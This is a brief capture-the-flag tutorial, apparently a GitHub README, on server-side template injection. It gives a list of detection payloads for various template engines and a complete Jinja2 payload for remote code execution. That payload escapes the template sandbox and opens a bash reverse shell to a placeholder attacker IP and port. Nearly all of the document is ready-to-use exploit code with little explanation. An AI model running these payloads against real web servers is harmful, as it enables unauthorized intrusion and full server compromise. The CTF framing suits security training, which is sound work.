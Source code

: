 # Server-Side Template Injection (SSTI)
A simple tutorial of SSTI commonly used in Capture The Flag (CTF). It is a guide to detect SSTI and possibly obtain remote code exection (RCE) on the server.

# Detect if the server is vulnerable to SSTI:
To test for vulnerability, try these each of the payloads below. The expected result should be the multiplication of 7 and 7 which is equal to 49. If one of the payloads return the expected result (i.e. 49), then the server is vulnerable to SSTI.
```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```
# RCE
'''
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"**ATTACKER_IP**\",**ATTACKER_PORT**));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
'''
